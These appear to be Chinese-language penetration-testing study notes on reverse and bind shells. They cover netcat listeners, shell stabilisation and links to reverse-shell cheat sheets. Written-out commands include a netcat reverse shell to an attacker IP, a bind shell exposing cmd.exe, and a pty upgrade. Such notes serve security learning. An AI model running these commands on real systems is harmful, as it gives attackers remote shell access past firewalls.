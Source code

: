 # Shell
## What is a shell?
	--> shell 是我們與命令列環境 (CLI) 互動時所使用的工具
	--> linux  : bash 或 sh 
	--> window : cmd.exe 和 Powershell
	--> 強制遠端伺服器向我們發送對伺服器的命令列存取（反向shell）

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	Type : 
		--> Reverse shells : 指目標被迫執行連接回您的電腦的程式碼
			--> 繞過防火牆規則的好方法
			
			--> 在攻擊機上： sudo nc -lvnp 443 //偵聽
			--> 關於目標    ： nc <LOCAL-IP> <PORT> -e /bin/bash

			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Bind shells : 指在目標上執行的程式碼用於啟動附加到直接在目標上的 shell 的偵聽器
			--> 在攻擊機上：nc MACHINE_IP <port>
			--> 關於目標    ：nc -lvnp <port> -e "cmd.exe" //偵聽
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> 互動式 :  Powershell、Bash、Zsh、sh 或任何其他標準CLI環境
		--> 非互動式shell  : sudo rlwrap nc -lvnp 443 <-- 將惡意 shell 程式碼注入網站
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	shell 儲存庫 :
		--> Payloads all the Things : 
			--> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
		--> PentestMonkey cheat-sheet : 
			--> https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		--> Kali Linux : 
			--> /usr/share/webshells
		--> SecLists 單字列表 :
			-->  https://github.com/danielmiessler/SecLists

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Tools : 
		--> Netcat -- "Swiss Army Knife"
			--> 接收反向shell 並連接到附加到目標系統上的綁定shell 的遠端連接埠	
			
			--> Reverse Shells :
				--> 啟動 netcat 偵聽器 : nc -lvnp <port-number>
				--> 使用低於 1024 的端口，則需要sudo
				
			--> Bind Shells : 
				--> nc <target-ip> <chosen-port>
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Netcat Shell Stabilisation
			--> Python :
				--> sudo nc -lvnp 443
				--> python3 -c 'import pty;pty.spawn("/bin/bash")'
				--> export TERM=xterm-  <-- clear
				--> Ctrl + Z  =>$ ^Z
				--> stty raw -echo; fg : 重新進入 shell
				